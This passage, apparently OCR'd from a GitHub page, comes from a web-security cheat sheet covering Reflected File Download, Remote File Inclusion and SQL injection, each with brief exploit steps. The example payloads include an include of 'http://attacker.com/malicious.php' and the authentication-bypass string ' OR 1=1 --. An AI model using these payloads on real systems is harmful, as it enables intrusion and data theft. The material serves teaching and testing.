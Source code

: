   ```html
RFD tricks users into downloading malicious files served by the application, disguised as safe files.

**Where to Find:**
Web applications that generate downloadable files based on user input.

**How to Exploit:**

    Manipulate input to serve a malicious file (e.g., exploit.exe).
    Trick users into downloading and running the file.

**Example:**  

    Inject: file=malicious.exe
    Result: The user downloads a malicious file.

---

## 12. Remote File Inclusion (RFI)


**Introduction:**
RFI allows attackers to include remote files, potentially leading to code execution or system compromise.

**Where to Find:**
Applications that allow file inclusion from external URLs.

**How to Exploit:**

    Modify the file parameter to point to an attacker-controlled file.
    Execute the remote file on the server.

**Example:**  

    Inject: file=http://attacker.com/malicious.php
    Result: Execute malicious code from a remote server.

---

## 13. SQL Injection

**Introduction:**
SQL Injection occurs when attackers inject malicious SQL code into input fields, allowing them to manipulate database queries.

**Where to Find:**
Forms or URLs that take user input and query a database.

**How to Exploit:**

    Inject SQL queries (e.g., ' OR 1=1 --).
    Extract or manipulate database data.
**Example:**  

    Inject: ' OR 1=1 --
    Result: Bypass authentication and access data.

**Note:** for more in-depth knowledge, follow this 1. **[swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)** 2. **[payloadbox](https://github.com/payloadbox/sql-injection-payload-list)**

---
  ```